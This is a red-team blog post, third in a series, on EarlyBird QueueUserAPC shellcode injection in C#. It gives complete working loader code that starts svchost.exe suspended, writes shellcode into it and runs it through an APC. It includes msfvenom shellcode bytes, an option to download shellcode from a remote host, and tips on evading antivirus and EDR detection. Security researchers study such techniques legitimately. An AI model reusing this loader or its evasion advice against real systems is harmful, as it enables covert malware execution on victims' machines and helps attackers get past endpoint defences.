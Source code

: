 ```yaml
---
title: "Shellcode Injection in C# - Part 3 - QueueUserAPC | EarlyBird"
author:
  name: crypt0ace
  link: https://twitter.com/crypt0acee
date: 2022-09-16
description: "Discussing shellcode injection techniques we can use while utilizing C#"
tags: [Red Team]
---
```

## Introduction
In this post we are going to look at another method for shellcode execution. THis involves using the API call `QueueUserAPC`. Like previous [Process Hollowing](https://crypt0ace.github.io/posts/Shellcode-Injection-Techniques-Part-2/), in this we are going to open a process in a suspended state, allocate some memory into it, write our shellcode into that allocated region, queue and APC to the thread and then resume it.

## QueueUserAPC
According to [Mitre](https://attack.mitre.org/techniques/T1055/004/) *APC injection is commonly performed by attaching malicious code to the APC Queue of a process's thread. Queued APC functions are executed when the thread enters an alterable state. A handle to an existing victim process is first created with native Windows API calls such as OpenThread. At this point QueueUserAPC can be used to invoke a function.*
<br>
APC stands for Asynchronous Procedure Call. APCs are functions that executes asynchronously in the context of a particular thread. Every thread has its own queue of APCs. They are executed in FIFO (First in first out) way when a thread enters an alertable state. A thread can enter an alertable state using calls like `SleepEx`. Explained by Microsoft [here](https://docs.microsoft.com/en-us/windows/win32/sync/asynchronous-procedure-calls)

## EarlyBird
In standard `QueueUserAPC` injection, all the threads are opened of a running process and the shellcode is binded with them in search that one of them will have a alertable state for it to execute our shellcode. This is unpredictable as it may not execute our shellcode or it may execute our shellcode multiple times.
<br>
In comes EarlyBird method. In this method, instead of targeting a running process we chose to create a process in a suspended state. After writing our shellcode to the thread we queue an APC and then resume the thread. This way the program processes the APC before the main thread executes. In some cases, it can bypass some EDRs/AVs because the execution of our shellcode happens before EDRs can hook in. (More into this later).

## .NET and APCs
While looking at some POCs of this method in C#, I noticed the code didnt have any "Alertable State" calls to actually execute the shellcode. Some research lead me to two articles. [One](https://posts.specterops.io/the-curious-case-of-queueuserapc-3f62e966d2cb) by SpecterOps and the [other](https://dev.to/wireless90/stealthy-code-injection-in-a-running-net-process-i5c) by wireless90. They explain how the CLR in .NET is responsible for this to happen.
<br>
TLDR is that the CLR calls an alertable method for us. The thread would be managed by the CLR and the shellcode executes when the .NET executeable exits.

### Imports
With all that theory out we can start with developing. First we need to set up the API calls we are going to use. For this some of the calls are obvious. First we need to create a process in a suspended state with `CreateProcess`. Then we allocate some RW space for our shellcode using `VirtualAllocEx`. Then we write the shellcode using `WriteProcessMemory`. Change the protection to RX USING `VirtualProtectEx`. Queue an APC to the main thread and then resume the thread. All put together looks like this.
```csharp
[DllImport("kernel32.dll")]
public static extern bool CreateProcess(string lpApplicationName, string lpCommandLine, IntPtr lpProcessAttributes, IntPtr lpThreadAttributes, bool bInheritHandles, uint dwCreationFlags, IntPtr lpEnvironment, string lpCurrentDirectory, ref STARTUPINFO lpStartupInfo, ref PROCESS_INFORMATION lpProcessInformation);

[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, Int32 dwSize, UInt32 flAllocationType, UInt32 flProtect);

[DllImport("kernel32.dll")]
public static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, int nSize, ref IntPtr lpNumberOfBytesWritten);

[DllImport("kernel32.dll")]
public static extern bool VirtualProtectEx(IntPtr handle, IntPtr lpAddress, int dwSize, uint flNewProtect, out uint lpflOldProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr QueueUserAPC(IntPtr pfnAPC, IntPtr hThread, IntPtr dwData);

[DllImport("kernel32.dll")]
public static extern uint ResumeThread(IntPtr hThread);
```

We also need some structs like in the previous post.
```csharp
public struct STARTUPINFO
{
  public Int32 cb;
  public string lpReserved;
  public string lpDesktop;
  public string lpTitle;
  public Int32 dwX;
  public Int32 dwY;
  public Int32 dwXSize;
  public Int32 dwYSize;
  public Int32 dwXCountChars;
  public Int32 dwYCountChars;
  public Int32 dwFillAttribute;
  public Int32 dwFlags;
  public Int16 wShowWindow;
  public Int16 cbReserved2;
  public IntPtr lpReserved2;
  public IntPtr hStdInput;
  public IntPtr hStdOutput;
  public IntPtr hStdError;
}

[StructLayout(LayoutKind.Sequential)]
public struct PROCESS_INFORMATION
{
  public IntPtr hProcess;
  public IntPtr hThread;
  public int dwProcessId;
  public int dwThreadId;
}

public static class CreationFlags
{
  public const uint SUSPENDED = 0x4;
}

public enum ThreadAccess : int
{
  SET_CONTEXT = 0x0010
}

public static readonly UInt32 MEM_COMMIT = 0x1000;
public static readonly UInt32 MEM_RESERVE = 0x2000;
public static readonly UInt32 PAGE_EXECUTE_READ = 0x20;
public static readonly UInt32 PAGE_READWRITE = 0x04;
```


### Main Method
First we need to initialize a couple of structs and then we can create a process in a suspended state much like in the previous post.
```csharp
STARTUPINFO si = new STARTUPINFO();
PROCESS_INFORMATION pi = new PROCESS_INFORMATION();

string app = @"C:\Windows\System32\svchost.exe";
bool procinit = CreateProcess(null, app, IntPtr.Zero, IntPtr.Zero, false, CreationFlags.SUSPENDED, IntPtr.Zero, null, ref si, ref pi);
```

We can add our shellcode in. We have seen how to copy paste from `msfvenom`. We can also fetch the shellcode from web or read from disk. Not recommended reading shellcode from disk. Very bad OPSEC.
```csharp
// If you want to fetch the shellcode from the web
string url = "http://192.168.1.1/safe.bin";
WebClient wc = new WebClient();
byte[] buf = wc.DownloadData(url);

// If you want to load shellcode from disk
string shellpath = @"C:\Users\crypt0ace\Desktop\www\safe.bin";
byte[] buf = File.ReadAllBytes(shellpath);

// If you want to embed the shellcode
// msfvenom -p windows/x64/exec CMD=calc.exe -f csharp
byte[] buf = new byte[276] {
    0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xc0,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,
    0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,
    0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x48,0x0f,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,
    0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0x41,0xc1,0xc9,0x0d,0x41,
    0x01,0xc1,0xe2,0xed,0x52,0x41,0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,
    0x01,0xd0,0x8b,0x80,0x88,0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x67,0x48,0x01,
    0xd0,0x50,0x8b,0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,0xe3,0x56,0x48,
    0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,0x01,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,
    0xac,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x03,0x4c,
    0x24,0x08,0x45,0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,
    0x66,0x41,0x8b,0x0c,0x48,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,0x41,0x8b,0x04,
    0x88,0x48,0x01,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,
    0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,
    0x8b,0x12,0xe9,0x57,0xff,0xff,0xff,0x5d,0x48,0xba,0x01,0x00,0x00,0x00,0x00,
    0x00,0x00,0x00,0x48,0x8d,0x8d,0x01,0x01,0x00,0x00,0x41,0xba,0x31,0x8b,0x6f,
    0x87,0xff,0xd5,0xbb,0xf0,0xb5,0xa2,0x56,0x41,0xba,0xa6,0x95,0xbd,0x9d,0xff,
    0xd5,0x48,0x83,0xc4,0x28,0x3c,0x06,0x7c,0x0a,0x80,0xfb,0xe0,0x75,0x05,0xbb,
    0x47,0x13,0x72,0x6f,0x6a,0x00,0x59,0x41,0x89,0xda,0xff,0xd5,0x63,0x61,0x6c,
    0x63,0x2e,0x65,0x78,0x65,0x00 };
```

Make sure to comment out the method youre not using.
<br>
After starting the process we can allocate space for our shellcode. This time however we would be using READ/WRITE (RW) memory and not READ/WRITE/EXECUTE (RWX) because it creates more suspicion and is usually flagged by AVs.
```csharp
IntPtr resultPtr = VirtualAllocEx(pi.hProcess, IntPtr.Zero, buf.Length, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
```

Once the memory has been allocated we can write our shellcode in it using `WriteProcessMemory`.
```csharp
IntPtr bytesWritten = IntPtr.Zero;
bool resultBool = WriteProcessMemory(pi.hProcess, resultPtr, buf, buf.Length, ref bytesWritten);
```

We can now change the memory protection using `VirtualProtectEx` to READ/EXECUTE (RX)
```csharp
uint oldProtect = 0;
IntPtr proc_handle = pi.hProcess;
resultBool = VirtualProtectEx(proc_handle, resultPtr, buf.Length, PAGE_EXECUTE_READ, out oldProtect);
```

After that we can use `QueueUserAPC` to queue and APC to our thread. We will provide the main thread using the `PROCESS_INFORMATION` struct's `hThread`.
```csharp
IntPtr ptr = QueueUserAPC(resultPtr, pi.hThread, IntPtr.Zero);
```

Resuming the thread using `ResumeThread` would put our APC to the front and execute the code in it before the main thread gets executed.
```csharp
IntPtr ThreadHandle = pi.hThread;
ResumeThread(ThreadHandle);
```

All goes well you should see the shellcode being executed.
![Calculator Pop](/assets/img/shellcode-injections-3/calc-pop.png)

## Code
The full code can be found on my github [here](https://github.com/crypt0ace/CS-APCInjection). Wont bypass any AV/EDR though but its a nice little technique for shellcode execution.

## References
As always all credits to these great posts

- [IRed.Team](https://www.ired.team/offensive-security/code-injection-process-injection/early-bird-apc-queue-code-injection)
- [Mitre](https://attack.mitre.org/techniques/T1055/004/)
- [Kara-4search/EarlyBirdInjection_CSharp](https://github.com/Kara-4search/EarlyBirdInjection_CSharp)
- [SevroSecurity](https://sevrosecurity.com/2020/04/13/process-injection-part-2-queueuserapc/)
- [dosxuz/Process-Injections](https://github.com/dosxuz/Process-Injections)
- [3xpl01tc0d3r - Process Injections Part 5](https://3xpl01tc0d3r.blogspot.com/2019/12/process-injection-part-v.html)
- [0x00sec - Process Injection: APC Injection](https://0x00sec.org/t/process-injection-apc-injection/24608)
- [wireless90 - Stealthy Code Injection in a Running .NET Process](https://dev.to/wireless90/stealthy-code-injection-in-a-running-net-process-i5c)
- [Dwight Hohnstein - The Curious Case of QueueUserAPC](https://posts.specterops.io/the-curious-case-of-queueuserapc-3f62e966d2cb)